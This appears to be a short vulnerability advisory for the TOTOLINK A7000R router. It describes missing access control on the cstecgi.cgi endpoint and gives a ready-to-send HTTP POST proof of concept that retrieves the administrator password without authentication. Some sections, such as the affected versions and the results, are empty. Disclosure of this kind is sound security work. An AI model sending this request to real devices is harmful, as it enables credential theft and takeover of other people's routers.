


# TOTOlink A7000R Sensitive information disclosure and privilege escalation caused by incorrect access control

## Overview

- Manufacturer's website information：http://totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

## 1. Affected version



## 2.Vulnerability details

1.The program does not have access control on/cgi bin/cstegi.cgi, so that anyone can access it. Send an administrator password request to it.



## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024
2. Use the following POCs for the attack

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 37
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl":"setting/getPasswordCfg"}
```

The reproduction results are as follows:


